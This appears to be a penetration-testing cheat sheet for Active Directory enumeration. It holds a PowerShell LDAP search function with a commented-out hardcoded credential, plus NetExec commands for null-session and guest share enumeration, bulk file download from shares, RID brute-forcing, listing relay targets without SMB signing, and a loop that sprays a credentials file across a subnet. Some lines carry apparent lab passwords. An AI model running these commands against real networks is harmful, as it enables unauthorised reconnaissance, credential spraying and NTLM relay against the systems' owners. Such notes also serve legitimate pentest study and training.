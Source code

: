 ```powershell
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }

    Write-Host "-------------------------------"
}

# proper ldap query code using powershell
function LDAPSearch {
 # example Usage: LDAPSearch -LDAPQuery "(objectclass=group)" 
 # LDAPSearch -LDAPQuery "(samAccountType=805306368)"
 # "(&(objectCategory=group)(cn=Development Department*))"
    param (
        [string]$LDAPQuery
    )

    $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
    $DistinguishedName = ([adsi]'').distinguishedName

    $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")
	# in case of doing enumeration from the other user perspective
	# $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
    $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)

    return $DirectorySearcher.FindAll()

}

# we can use for loop to easily print the output
foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) {
	$group.properties | select {$_.cn}, {$_.member}
}

```
#### [Netexec](https://www.netexec.wiki/)
```shell
# SMB enumeration
nxc smb <iprange>  # only search for windows machine
nxc smb <ipraneg> -u '' -p '' --shares # to look for null session
nxc smb <iprange> -u 'guest' -p '' --shares

nxc smb <ip> -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=True # to download all the file from smb shares
nxc smb <ip> -u 'user' -p 'pass'  --user # try enumerate thru guest user and null session

nxc smb <ip> -u 'user' -p 'pass' --users
nxc smb <ip> -u 'user' -p 'pass' --rid-brute # to enumerate users using rid bruteforcing
nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --pass-pol # domain pass policy
nxc smb 192.168.1.0/24 --gen-relay-list relay_list.txt # to check which target hasn't enforced smb signing so we can relay ntml

# Spray valid credentials: smb, rdp and winrm
while IFS=: read -r u p; do netexec smb 10.10.10.0/24 -u "$u" -p "$p"; done < <(cat credentials.txt)


nxc ldap DC1.scrm.local -u sqlsvc -p Pegasus60 -k --get-sid  # to get domain sid

```